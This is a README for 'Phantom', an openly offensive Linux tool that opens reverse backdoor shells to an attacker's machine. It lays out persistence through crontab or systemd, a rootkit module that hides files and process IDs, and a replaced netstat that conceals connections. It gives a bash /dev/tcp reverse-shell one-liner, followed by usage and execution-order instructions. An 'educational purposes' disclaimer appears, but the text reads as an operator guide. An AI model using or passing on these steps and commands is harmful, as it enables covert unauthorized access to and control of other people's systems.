 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat. It works only on
Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

```
phantom-init	ip 1st-port 2nd-port
```
*	ip: the attacker's ip
*	1st-port: the port that listens for connections to deliver the payload
*	2nd-port: the port that listens for the backdoor shells after delivering the payload

You have to somehow make the target execute this code, so that he connects to the 1st-port:  
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'  
ip and 1st-port are the ones specified above.

## Files

*	phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

*	payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

*	phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
	1. Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
	1. Execute phantom-firewall as root, so it can modify the firewall rules.
	2. Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3. 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
